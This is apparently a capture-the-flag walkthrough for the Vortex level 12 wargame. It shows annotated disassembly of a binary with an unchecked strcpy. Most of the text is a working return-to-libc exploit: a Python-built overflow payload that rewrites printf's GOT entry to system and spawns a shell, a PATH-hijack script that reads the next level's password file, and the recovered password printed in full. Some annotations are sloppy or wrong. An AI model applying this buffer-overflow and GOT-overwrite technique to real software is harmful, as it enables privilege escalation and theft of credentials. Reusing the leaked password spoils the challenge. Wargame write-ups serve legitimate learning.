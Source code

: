 
Dump of assembler code for function main:
```assembly
   0x080486b8 <+0>:     push   ebp
   0x080486b9 <+1>:     mov    ebp,esp
   0x080486bb <+3>:     push   esi
   0x080486bc <+4>:     push   ebx
   0x080486bd <+5>:     and    esp,0xfffffff0
   0x080486c0 <+8>:     sub    esp,0x20
   0x080486c3 <+11>:    mov    DWORD PTR [esp+0xc],0x0
   0x080486cb <+19>:    mov    DWORD PTR [esp+0x8],0x804865d		// looks like an address in memory
   0x080486d3 <+27>:    mov    DWORD PTR [esp+0x4],0x0
   0x080486db <+35>:    lea    eax,[esp+0x1c]
   0x080486df <+39>:    mov    DWORD PTR [esp],eax
   0x080486e2 <+42>:    call   0x8048550 <pthread_create@plt>		// pthread_start(struct, NULL, 0x804865d, NULL) - starts a thread with function 0x804865d
   0x080486e7 <+47>:    call   0x8048530 <getgid@plt>			// get group id...
   0x080486ec <+52>:    mov    esi,eax
   0x080486ee <+54>:    call   0x8048530 <getgid@plt>
   0x080486f3 <+59>:    mov    ebx,eax
   0x080486f5 <+61>:    call   0x8048530 <getgid@plt>
   0x080486fa <+66>:    mov    DWORD PTR [esp+0xc],esi
   0x080486fe <+70>:    mov    DWORD PTR [esp+0x8],ebx
   0x08048702 <+74>:    mov    DWORD PTR [esp+0x4],eax
   0x08048706 <+78>:    mov    DWORD PTR [esp],0xaa
   0x0804870d <+85>:    call   0x8048540 <syscall@plt>			// sethostname(getgid, ...) - try to elavate privligages...
   0x08048712 <+90>:    call   0x80484f0 <getuid@plt>
   0x08048717 <+95>:    mov    esi,eax
   0x08048719 <+97>:    call   0x80484f0 <getuid@plt>
   0x0804871e <+102>:   mov    ebx,eax
   0x08048720 <+104>:   call   0x80484f0 <getuid@plt>
   0x08048725 <+109>:   mov    DWORD PTR [esp+0xc],esi
   0x08048729 <+113>:   mov    DWORD PTR [esp+0x8],ebx
   0x0804872d <+117>:   mov    DWORD PTR [esp+0x4],eax
   0x08048731 <+121>:   mov    DWORD PTR [esp],0xa4
   0x08048738 <+128>:   call   0x8048540 <syscall@plt>			// settimeofday ...
   0x0804873d <+133>:   mov    eax,DWORD PTR [ebp+0xc]
   0x08048740 <+136>:   add    eax,0x4
   0x08048743 <+139>:   mov    eax,DWORD PTR [eax]
   0x08048745 <+141>:   mov    DWORD PTR [esp],eax
   0x08048748 <+144>:   call   0x8048698 <unsafecode>			// unsafecode(env[1])
   0x0804874d <+149>:   mov    eax,0x0
   0x08048752 <+154>:   lea    esp,[ebp-0x8]
   0x08048755 <+157>:   pop    ebx
   0x08048756 <+158>:   pop    esi
   0x08048757 <+159>:   pop    ebp
   0x08048758 <+160>:   ret 
```   
```assembly
Dump of assembler code for function unsafecode:
   0x08048698 <+0>:     push   ebp
   0x08048699 <+1>:     mov    ebp,esp
   0x0804869b <+3>:     sub    esp,0x418				// allocate 0x408 bytes for local buffer
   0x080486a1 <+9>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486a4 <+12>:    mov    DWORD PTR [esp+0x4],eax
   0x080486a8 <+16>:    lea    eax,[ebp-0x408]
   0x080486ae <+22>:    mov    DWORD PTR [esp],eax
   0x080486b1 <+25>:    call   0x8048500 <strcpy@plt>			//unsafe strcpy...
   0x080486b6 <+30>:    leave
   0x080486b7 <+31>:    ret

Dump of assembler code for function safecode:
   0x0804865d <+0>:     push   ebp
   0x0804865e <+1>:     mov    ebp,esp
   0x08048660 <+3>:     sub    esp,0x28
   0x08048663 <+6>:     mov    DWORD PTR [ebp-0xc],0x0
   0x0804866a <+13>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0804866d <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x08048671 <+20>:    mov    DWORD PTR [esp],0x80487f0
   0x08048678 <+27>:    call   0x80484c0 <printf@plt>
   0x0804867d <+32>:    mov    eax,ds:0x804a040
   0x08048682 <+37>:    mov    DWORD PTR [esp],eax
   0x08048685 <+40>:    call   0x80484d0 <fflush@plt>
   0x0804868a <+45>:    mov    DWORD PTR [esp],0x1
   0x08048691 <+52>:    call   0x80484e0 <sleep@plt>
   0x08048696 <+57>:    jmp    0x804866a <safecode+13>
```

If we recall, this code is identical to vortex8, but this time the stack isnt executable...  
So, this time we'll want to use the already existing function strcpy to overwrite printf@plt, and run system("%d\n", ...) instead...  
now, we must keep the original thread alive long enough to execute printf, this is done by running system("/bin/sh")  
let's prepare the stack to execute that operation:  
RECALL: a function's stack looks like: RET_ADDR param1 param2 ... parmN  
so: lets call strcpy(printf@got.plt, SYSTEM_ADDR_IN_STACK)  
finding system proved to be easy enough:  
```bash
(gdb) print system
$1 = {int (const char *)} 0xf7fc3eb0 <system>
```
similarly, strcpy address is 0xf7e937b0  

we go to the line call strcpy in unsafecode(), with the parameters dest = printf.got.plt, source=system.plt address (on stack), then return using ret to system("/bin/sh")...  
(remember, ebp = 0xffffd2d4)  

$(python -c 'print "A"*0x408 + "\xd4\xd2\xff\xff" + "\xb1\x86\x04\x08" +"\x0c\xa0\x04\x08" + "BBBB" + "\xb0\x3e\xfc\xf7" + "CCCCCCCC" + "/bin/sh"')  
breakdown of the payload:  
[1032-buffer replaced-ebp jmp-to-(call strcpy@plt) dest-addr source-addr ret-addr-of-unsafecode(system) ret-addr-of-system param1-system]  
we found out the stack locations to be: BBBB = 0xffffd2d8, CCCC = 0xffffd2e4  
$(python -c 'print "A"*0x408 + "\xd4\xd2\xff\xff" + "\xb1\x86\x04\x08" +"\x0c\xa0\x04\x08" + "\xd8\xd2\xff\xff" + "\xb0\x3e\xfc\xf7" + "CCCC\xe4\xd2\xff\xff" + "/bin/sh"')  
let's create a script file called %d and link it to PATH:  
```bash
#/bin/sh

cat /etc/vortex_pass/vortex13
```

at last, we get:  
```bash
vortex12@vortex:/tmp/vt12$ /vortex/vortex12 $(python -c 'print "A"*0x408 + "\xd4\xd2\xff\xff" + "\xb1\x86\x04\x08" +"\x0c\xa0\x04\x08" + "\xd8\xd2\xff\xff" + "\xb0\x3e\xfc\xf7" + "CCCC\xe4\xd2\xff\xff" + "/bin/sh"')
$ jMyg12=nB
Segmentation fault (core dumped)
```
it worked!  
password: jMyg12=nB  



